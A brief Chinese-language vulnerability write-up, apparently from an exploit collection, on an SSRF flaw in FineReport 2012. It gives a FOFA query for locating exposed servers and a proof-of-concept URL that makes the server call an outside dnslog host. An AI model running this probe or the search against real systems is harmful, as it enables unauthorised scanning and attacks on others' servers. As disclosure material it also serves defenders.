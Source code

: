 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## FOFA

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![image-20220209113126929](./images/202202091131035.png)

